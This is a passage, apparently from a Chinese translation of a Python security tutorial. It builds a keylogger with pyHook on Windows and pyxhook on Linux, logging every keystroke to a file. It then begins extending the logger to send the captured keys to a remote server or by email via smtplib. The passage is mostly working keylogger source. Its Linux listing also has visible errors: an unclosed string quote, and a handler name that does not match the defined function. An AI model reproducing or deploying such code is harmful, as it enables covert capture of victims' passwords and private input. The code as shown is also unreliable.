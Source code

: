 在这里，我们实例化`pyhook`管理器：

```
hooks_manager = pyHook.HookManager() 

```

在每次击键时调用键盘事件函数：

```
hooks_manager.KeyDown = OnKeyboardEvent 
hooks_manager.HookKeyboard() 
pythoncom.PumpMessages() 

```

这将在 Windows 系统中工作。要使用 Linux，我们必须依赖另一个模块：`pyxhook`。您可以从[获取此模块 https://github.com/JeffHoogland/pyxhook](https://github.com/JeffHoogland/pyxhook) 。

使用`pyxhook`，您可以重写前面的脚本以使用 Linux：

```
import pyxhook 
file_log=/home/rejah/Desktop/file.log' 
def OnKeyboardEvent(event): 
   k = event.Key 

    if k == "space": k = " " 

   with open(file_log, 'a+') as keylogging: 
      keylogging.write('%s\n' % k)   

#instantiate HookManager class 
hooks_manager = pyxhook.HookManager() 

#listen to all keystrokes 
hooks_manager.KeyDown=OnKeyPress 

#hook the keyboard 
hooks_manager.HookKeyboard() 

#start the session 
hooks_manager.start() 

```

我们可以改进脚本，将击键记录到远程服务器或处理特定的击键。

要将记录的击键发送到电子邮件，我们可以使用`smtplib`模块。我们需要导入所需的模块：

```
import time 
import datetime 
import smtplib 
from email.mime.text import MIMEText

```
